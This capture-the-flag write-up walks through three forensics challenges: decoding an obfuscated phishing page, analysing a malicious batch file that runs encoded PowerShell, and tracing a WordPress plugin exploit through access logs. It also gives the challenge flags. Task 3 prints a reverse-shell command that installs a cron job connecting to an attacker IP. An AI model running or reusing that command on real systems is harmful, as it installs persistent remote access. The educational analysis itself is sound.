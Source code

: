 # Task 1: Spooky Phishing
Question: A few citizens of the Spooky Country have been victims of a targeted phishing campaign. Inspired by the Halloween spirit, none of them was able to detect attackers trap. Can you analyze the malicious attachment and find the URL for the next attack stage?

Flag: `HTB{sp00ky_ph1sh1ng_w1th_sp00ky_spr34dsh33ts}`

We are given the following file:
* `index.html`: HTML page containing the phishing mechanism.

Analyzing the source code, several encoded codes cane be identified in the tags highlighted.

![phishing1](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/1666ccad-4bf5-44bf-9589-e6d1740d82fa)

Let us start analyzing the `<script>` tag in HTML is used to include JavaScript code in a web page. 
1. `data`: - This specifies that the URL is a data URI. 
2. `text/javascript;base64`: - This part of the URL indicates that the data is encoded as Base64 and represents `JavaScript` code.

Hence, the whole section can be decoded from Base64 and the script code can then be analyzed further.

![phishing2](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/1d141eed-f3f9-43a8-beb5-68442c9baffa)

Notice how the script initiates two variables, `nn` and `aa`. These variables contain the result of the `decodeHex` function given the two hidden values as parameter each time, after the result of the `atob` function (atob decodes data that has been encoded with base64). 

![phishing3](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/02f2d840-8370-4073-a19c-d30d0dd6f6a2)

# Solution
One way is to analyze the `decodeHex` function. By concatenating the two hidden strings in the html file and decoding it with Base64 first and then hex, the flag can be retrieved.

![phishing4](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/61292495-bd0a-44f2-b61e-28baf9658ece)

Another way is to just enter the website as it will redirect us to an error page with the flag present in its URL. However, this was just an error from HTB after getting confirmation from a HTB staff on Discord.

![phishing5](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/b53a02cc-f233-49cf-add4-51b69a782d3b)

![phishing6](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/9af66095-5825-4d1f-be28-05b5a727cba0)

# Task 2: Bat Problems
Question: On a chilly Halloween night, the town of Hollowville was shrouded in a veil of mystery. The infamous "Haunted Hollow House", known for its supernatural tales, concealed a cryptic document. Whispers in the town suggested that the one who could solve its riddle would reveal a beacon of hope. As an investigator, your mission is to decipher the script's enigmatic sorcery, break the curse, and unveil the flag to become Hollowville's savior.

Flag: `HTB{0bfusc4t3d_b4t_f1l3s_c4n_b3_4_m3ss}`

We are given the following file:
* `payload.bat`: Malicious bat file.

As we can see from the following image, the script contains random variables that are assigned with random values. In a batch script (a .bat or .cmd file), the set command defines and manipulates environment variables which store information that can be used by the script or other programs running in the same environment (the Command Prompt session).

![bat](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/0fd21a7a-8f4c-46c9-a985-1570a57f694c)

First, the bat file can be analyzed using `Any.Run` which is a malware analyzer tool.
We will get the following result if we upload the sample on the aforementioned site.

![bat2](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/0e1c32ed-4f98-4d8b-8f06-350efa1761e3)

By analyzing the behavior graph, we notice three actions made:
1. The attacker can be seen using `cmd` to copy PowerShell to a different path with a random name (Earttxmxaqr.png). 
1. The attacker then uses cmd again to rename the downloaded bat file and also change it's extension to `.png.bat` to avoid detection.
1. The attacker executes the base64 encoded string using the renamed PowerShell executable (`-enc` argument in Powershell is used to pass a base64 encoded command).

![bat3](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/66bc25ac-e13b-427b-917c-b51767202b0b)

By decoding the string, the flag can be retrieved.

![bat4](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/ff75d596-8d18-4edc-ad2d-925625bd205d)

# Task 3: Vulnerable Season
Question: Halloween season is a very busy season for all of us. Especially for web page administrators. Too many Halloween-themed parties to attend, too many plugins to manage. Unfortunately, our admin didn't update the plugins used by our WordPress site and as a result, we got pwned. Can you help us investigate the incident by analyzing the web server logs?

Flag: `HTB{L0g_@n4ly5t_4_bEg1nN3r}`

We are given the following file:
* `access.log`: Wordpress server logs.

In the log file, notice there are several requests related to a WordPress website. Analyzing the logs, `82.179.92.206` has performed the most requests out of the IP addresses, indicating a suspicious activity. So we can find the amount of times an IP addresses was involved by the number of requests.
```
cat access.log | cut -d " " -f 1 | sort | uniq -c
```

![vul](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/c8fa44b3-133d-4df6-b276-c06c98c9778d)

By reading the instructions, they mentioned that the attacker may have exploited a vulnerability in a plugin. 
Hence, the search can be easier by filtering the logs using "wp-content/plugins/" which is the directory storing all the plugins. Requests from 82.179.92.206 with response status code of 200 are the key to identifying the vulnerability, as these can reveal whether the attacker's attempts were successful. 

By analyzing the logs, notice how some requests suggest that the attacker has exploited the `wp-upg` plugin since the plugin was responding with 200 OK messages. Additionally, `wp-upg` has certain vulnerabilities such as CVE-2022-4060 and CVE-2023-0039

![vul2](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/e0aac332-d852-458d-a5b6-39ac78ff7369)

After identifying the vulnerable plugin, the logs are analyzed further and another important log was found. These requests indicate the attacker was attempting to execute arbitrary commands on the system.

![vul3](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/9a45e2a9-b710-48e1-b087-f62fd4dc2986)

One of the requests creates a cron job named `testconnect` that connects to a Command and Control (CnC) server and prints the flag.

![vul4](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/ccbeef90-e54d-42ba-b1e9-66a5a2495552)

![vul5](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/d26940c4-9311-499f-9468-c29b2b5b990f)

At this point, I was stuck and required help from the HTB writeup. I found out that to retrieve the flag was to decode the URL using the `testconnect` cron job again. This can be done using the command:

```
echo "sh -i >& /dev/tcp/82.179.92.206/7331 0>&1" > /etc/cron.daily/testconnect && Nz=Eg1n;az=5bDRuQ;Mz=fXIzTm;Kz=F9nMEx;Oz=7QlRI;Tz=4xZ0Vi;Vz=XzRfdDV;echo $Mz$Tz$Vz$az$Kz$Oz|base64 -d|rev
```

![vul6](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/a9bbfa96-a62f-49aa-8d85-7ba1410c8684)
